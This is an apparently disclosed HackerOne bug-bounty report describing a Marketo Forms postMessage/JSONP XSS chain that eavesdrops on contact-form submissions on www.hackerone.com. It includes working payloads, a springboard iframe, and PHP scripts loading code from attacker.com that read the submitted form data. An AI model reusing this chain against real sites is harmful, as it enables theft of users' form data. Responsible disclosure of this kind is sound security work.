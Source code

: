 # Stealing contact form data on www.hackerone.com using Marketo Forms XSS with postMessage frame-jumping and jQuery-JSONP

## Report Details
- **Report ID**: 207042
- **URL**: https://hackerone.com/reports/207042
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-02-17T04:18:23.540Z
- **Disclosed**: 2017-08-29T14:58:40.288Z

## Reporter
- **Username**: fransrosen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hi,

I just discovered that there's a scenario where the Marketo Forms solution being used on www.hackerone.com can actually be abused, using a few fun techniques, to trigger an XSS in the Cross-Origin-iframe being used by Marketo. This results in eavesdropping of the data being sent in the contact-form on www.hackerone.com.

What also made this nice on HackerOne was the auto-trigger to launch the contact form without any interaction using the `#contact`-fragment:

```js
 if(/^#contact/.test(window.location.hash) === true) {
    LoadContactForm();
 }
```

### PoC

My PoC looks like this:

███

PoC-link is here, it will popup alert when form is submitted with the data:
https://█████/marketo2.html 

Only an annoying alert: 
https://████████/marketo.html

### Technical details

So, let's dig down what actually happens here.

#### Marketo cross domain AJAX request window

Marketo uses an iframe that is located here (the `sj17` is just a specific instance on Marketo, this one differs between customers):

https://app-sj17.marketo.com/index.php/form/XDFrame

This page contains a `postMessage`-listener to launch an ajax-call:

```js
if(!window.parent || window.parent == window){
  return;
}
$(window).on("message", function (e){
  ...
  if(message && message.mktoRequest && message.mktoRequest.ajaxParams){
    var params = message.mktoRequest.ajaxParams;
    ...
    $.ajax(params);
```

First, as you see, the window will not work without any window parent. If it's framed, it'll start the listener. Passing arbitrary parameters to `$.ajax` is bad. Sending the following payload as the `ajaxParams`:

```
{"url":"https://attacker.com/jsonp.php","dataType":"jsonp","method":"get"}
```

Having the following content on the `jsonp.php`-endpoint:

```
<?
header("Access-Control-Allow-Origin: *");
?>
alert(document.domain)
```

Will result in an XSS on this marketo.com-domain.

#### postMessage passing

Since no origins are being used here, we can just pass any messages we like, from wherever we like.

To abuse this on www.hackerone.com we need to do the following:

1. Create our springboard page which will have an iframe of the `XDFrame` for Marketo:

```html
<iframe id="x" name="x" border="0" frameborder="0" width="100" height="30" src="https://app-sj17.marketo.com/index.php/form/XDFrame"></iframe>
```

2. We listen to the message we get from the iframe to trigger our payload and we send back a `postMessage` loading a JSONP-endpoint with a function to create a link to www.hackerone.com with the `#contact` fragment:

```html
<script>
var run = false
var b
window.onmessage=function() {
	if(!run)
	x.postMessage('{"mktoRequest":{"ajaxParams":{"url":"https://attacker.com/jsonp.php","dataType":"jsonp","method":"get"}}}', '*')
	run = true
}
</script>
```

This is the content of `jsonp.php`:

```php
<?
header("Access-Control-Allow-Origin: *");
?>
(function(){
document.body.innerHTML='<a href="#" onclick="window.b=window.open(\'https://www.hackerone.com/product/overview#contact\',\'b\',\'\')">Click me!</a>'

setInterval(function() {
try {
	b['frames'][0].postMessage('{"mktoRequest":{"ajaxParams":{"url":"https://attacker.com/jsonp2.php","dataType":"jsonp","method":"get"}}}', '*')
} catch(e){}
}, 1000);
})()
```

When victim clicks the link, we start a interval of `postMessage`-sending to `b['frames'][0]` which should be the Marketo iframe on www.hackerone.com. Interesting enough, Marketo actually sets the name of the frame to `mktoFormsXDIframe + Math.random()` but this can be completely bypassed using `window['frames'][0]` instead.

Our code in `jsonp2.php` looks like this:

```php
<?
header("Access-Control-Allow-Origin: *");
?>
(function(){
	if(window.icanhazmsg) return
	window.icanhazmsg=true
	window.onmessage=function(a) {
		if(a.origin.indexOf('marketo') !== -1) return;
		console.log(a);
		alert("I HAVE YOUR DATA NOW\n" + a.data)
	}
})()
```

As you see, we now use the XSS passed from our springboard-iframe to the iframe on www.hackerone.com to register a listener to pop an alert when data is submitted in the form.

Getting the victim to submit the form, will result in the infamous popup:

████

So, what we did was the following:

1. Attacker's page -> Marketo iframe
2. postMessage from Marketo iframe -> Attacker's page
3. Attacker's page -> postMessage loading JSONP -> Marketo iframe
4. Create link on Marketo iframe -> start sending postMessage
5. Link opens www.hackerone.com in new tab, triggers contact form to show using `#contact`
6. Sends over postMessage from opener. XSS register listener in Marketo iframe
7. Victim submits form, XSS reads data
  

### Conclusion

I played around a bit with this issue and came to the following conclusion:

1. Marketo Forms doesn't use any origin-checks of the postMessage sent to their Cross Origin Frame. This is most likely because the whole point with the frame is to communicate with any page that uses Marketo. This is probably per design.
2. Marketo Forms allows a bit too much flexibility for the page sending the postMessage. It's actually just throwing in a complete object called `ajaxParams` directly into `$.ajax()`. This results in the XSS on `app-*.marketo.com`. I think this is the best thing to patch up properly, not allowing full control over these params, especially not the `jsonp`-mode of jQuery.
3. In HackerOne's case, no data is handled sent from the `error` and `success` functions being triggered when the form is posted which most likely saves HackerOne from getting a proper XSS on their own domain. However, since the data submitted in the form is still passed through the iframe, data can still be stolen using this technique.

Regards,
Frans

## Attachments
No attachments
